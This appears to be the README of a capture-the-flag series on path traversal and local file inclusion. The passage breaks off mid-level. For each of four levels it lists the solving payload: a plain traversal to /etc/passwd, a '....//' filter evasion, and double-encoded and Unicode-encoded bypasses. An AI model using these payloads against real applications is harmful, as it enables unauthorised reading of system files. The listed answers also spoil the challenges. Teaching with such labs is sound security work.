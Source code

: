 # 🛡️ LFI / Path Traversal CTF

This repository contains a custom Capture the Flag (CTF) challenge series focused on **Local File Inclusion (LFI)** and **Path Traversal** vulnerabilities. The CTF progresses in difficulty from basic file reads to advanced bypass techniques.

---

## 🔧 Requirements

- Browser or tools like `curl`/`BurpSuite`
- Basic understanding of:
  - URL encoding
  - File system traversal
  - Web application behavior (esp. Spring Boot for Level 3)

---

## 🚩 Levels & Payloads

### 📂 Level 1 — No Protection (Basic Traversal)
Straightforward file path traversal, no sanitization or filtering.

- **Payload**: `../../../../../../../etc/passwd`
- **Alternate**: `../flag.txt`

---

### 🧱 Level 2 — Filter Evasion via Slash Injection
Basic filtering in place for `"../"` patterns, but no normalization applied.

- **Payload**: `....//....//....//....//....//etc/passwd`

_This leverages how `....//` is interpreted as `../` after normalization._

---

### 🔒 Level 3 — Blacklisted Patterns (Double Encoding Bypass)
The application decodes the input twice. Blacklists are applied only after the first decoding pass (common in Spring Boot apps).

- **Payload**: `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%2565%2574%2563%252f%2570%2561%2573%2573%2577%2564`

### 🌐 Level 4 — Unicode + URL Encoding Bypass
Strict sanitization blocks normal encoding. Use Unicode with URL encoding.

- **Payload**: `%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%36%33%5c%75%30%30%32%66%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%37%37%5c%75%30%30%36%34`

- **Decoded Path**: